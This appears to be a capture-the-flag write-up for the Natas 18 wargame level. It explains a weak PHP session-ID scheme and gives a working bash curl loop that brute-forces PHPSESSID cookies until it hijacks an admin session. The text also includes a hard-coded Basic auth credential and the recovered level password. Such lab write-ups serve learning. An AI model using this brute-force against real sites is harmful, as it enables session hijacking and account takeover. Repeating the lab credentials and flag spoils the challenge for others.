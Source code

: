 ```
What does createID do ?
    Generate a random interger between 1 and the maxid (which is 640)

what does session_id do ?
    session_id() is used to get or set the session id for the current session.
    If id is specified, it will replace the current session id. session_id() needs to be called before session_start() for that purpose.

What does session_start do ?
    session_start() creates a session or resumes the current one based on a session identifier passed via a GET or POST request, or passed via a cookie.


So how can we break this ?
    my_session_start checks if there is a valid PHPSESSID, it will then start the session with that id.
    If there is currently a PHPSESSID for a admin session, and we correctly guess this, we could get a admin session. This way we entirely skip the $_SESSION["admin"] = isValidAdminLogin() since this will only be checked/set if my_session_start returns false or if it exists.
    Since the maxid is been set to 640 this should be brute forceable.
``` 

Doing the breakiage.

```bash
MaxCookieID=640
CurrentID=0
while [ $CurrentID -ne $MaxCookieID ]
do
    CurrentID=$(( $CurrentID + 1 ))
    SessionCookie="PHPSESSID=$CurrentID"
    curl_output=$(curl -s $'http://natas18.natas.labs.overthewire.org/' -H 'Authorization: Basic bmF0YXMxODp4dktJcURqeTRPUHY3d0NSZ0RsbWowcEZzQ3NEamhkUA==' --cookie "$SessionCookie" --data 'username=admin&password=password')
    if echo $curl_output | grep -q "regular user"; then
        echo "[-] $CurrentID out of $MaxCookieID is not a admin session."
    else
        echo "[+] $CurrentID out of $MaxCookieID is a admin session."
        echo "[+] $(echo $curl_output | grep Password | cut -d "<" -f 1 )"
        break
    fi
done
``` 

```bash
[-] 1 out of 640 is not a admin session.
[-] 2 out of 640 is not a admin session.
[-] 3 out of 640 is not a admin session.
[-] 4 out of 640 is not a admin session.
[-] 5 out of 640 is not a admin session.
[-] 6 out of 640 is not a admin session.
[-] 7 out of 640 is not a admin session.
[-] 8 out of 640 is not a admin session.
[-] 9 out of 640 is not a admin session.
...
[-] 115 out of 640 is not a admin session.
[-] 116 out of 640 is not a admin session.
[-] 117 out of 640 is not a admin session.
[-] 118 out of 640 is not a admin session.
[+] 119 out of 640 is a admin session.
[+] Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs
```

